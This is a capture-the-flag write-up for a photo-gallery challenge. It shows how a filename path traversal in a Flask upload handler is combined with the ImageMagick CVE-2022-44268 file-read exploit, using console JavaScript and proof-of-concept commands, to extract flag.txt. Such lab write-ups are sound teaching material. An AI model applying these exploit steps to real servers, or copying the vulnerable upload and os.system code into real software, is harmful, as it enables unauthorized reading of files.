 # Wizard Gallery 
- Description: The council's top priority is to protect the flag, no matter the cost. Oh hey look, it's a photo gallery. What could go wrong? Hint: RCE is a luxury nowadays.
WizardGallery.zip:attachments/WizardGallery.zip

# Writeup

Upon visiting the webpage, we reach an upload button. Uploading an image will redirect to the gallery (`/gallery`), where you can see all previously uploaded images.

After opening main.py, we can look at the upload_file function.

```python
if '.' not in file.filename:
    wipe_upload_directory()
    return jsonify({'success': False, 'message': '🚨 ATTACK DETECTED! Suspicious file without extension detected on the union network. All gallery files have been wiped for security. The Sorcerer\'s Council has been notified.'}), 403
    
if is_blocked_extension(file.filename):
    wipe_upload_directory()
    return jsonify({'success': False, 'message': '🚨 ATTACK DETECTED! Malicious executable detected on the union network. All gallery files have been wiped for security. The Sorcerer\'s Council has been notified.'}), 403
    
```

After analyzing is_blocked_extension and wipe_upload_directory, it becomes clear that attempting to upload a file with no extension or an extension in the BLOCKED_EXTENSIONS array will result in all images currently in the uploads directory to get wiped. 

```python
if file and allowed_file(file.filename):
```

Moreover, only files in the ALLOWED_EXTENSIONS array will be uploaded. The rest will be rejected. Now looking at the file saving code:

```python
file_path = os.path.join(app.config['UPLOAD_FOLDER'], original_filename)    
file.save(file_path)
```
This shows a clear directory traversal attack, which can let us save files outside of the uploads directory, by modifying the filename property inside the FormData that we send from the client.

Despite this, we are still unable to access the flag, because all extensions besides image formats are blocked, and so overwriting main.py or similar is not an option.

Looking back into main.py we find:

```python
@app.route('/logo-sm.png')
def logo_small():
    logo_sm_path = os.path.join(app.config['UPLOAD_FOLDER'], 'logo-sm.png')
    if not os.path.exists(logo_sm_path):
        os.system("magick/bin/convert logo.png -resize 10% " + os.path.join(app.config['UPLOAD_FOLDER'], 'logo-sm.png'))
    
    return send_from_directory(app.config['UPLOAD_FOLDER'], 'logo-sm.png')
```

This function seems to check if a file called logo-sm.png exists, and not, resizes logo.png from the main directory and serves it on the path /logo-sm.png. In the code for index.html, we can see it is used if a mobile device is detect on the front page.

Looking at the `os.system` line, the code runs the convert ImageMagick binary from the specified directory. Attempting to find this binary version, we get:

```bash
$ magick/bin/convert -version
Version: ImageMagick 7.1.0-49 beta Q16-HDRI x86_64 c243c9281:20220911 https://imagemagick.org
Copyright: (C) 1999 ImageMagick Studio LLC
```

After looking on a CVE tracker, we find that this version is vulnerable to a arbritrary read exploit `CVE-2022-44268`. The exploit involves using a modified png file that will read and embed file data in itself after being passed through ImageMagick. The exploit is demoed [here](https://github.com/vulhub/vulhub/tree/master/imagemagick/CVE-2022-44268). After downloading the given script, we can run it on any PNG that we provide, and tell it to read and embed flag.txt:

```bash
python3 poc.py generate -i logo_orig.png -o logo_exp.png -r flag.txt
```

Since the resize command is used on logo.png in the root directory, we can use our directory traversal exploit to replace that file on the server with our own.

To do this, we can use some client javascript. First, use the file picker to select the modified image. Next, use the following snippet in the console to POST that file after modifying the filename to `../logo.png`.

```javascript
const fileInput = document.querySelector('input[type="file"]');
const originalFile = fileInput.files[0];

const formData = new FormData();

formData.append('file', originalFile, '../logo.png');

const response = await fetch('/upload', {
    method: 'POST',
    body: formData
});
```

After this, we can wipe the uploads directory by uploading a blacklisted file extension (e.g .py). This is to remove the cached version of logo-sm.png which is saved in the uploads directory. Now, when we GET /logo-sm.png, we will recieve an image which contains our flag. To extract the flag, we can use the same tool as above:

```bash
python3 poc.py parse -i logo-sm.png
```

After running, we find the line which includes `Raw profile type`:

```bash
$ python3 poc.py parse -i logo-sm.png
...
2025-08-01 21:41:36,337 - INFO - chunk tEXt found, value = b'Raw profile type txt\x00\ntxt\n      18\n7363726970744354467b544553543132337d\n'
```
The segment between the two `\n`s is a hex string that can be decoded to become:
```
scriptCTF{TEST123}
```

# Flag - Randomly generated per user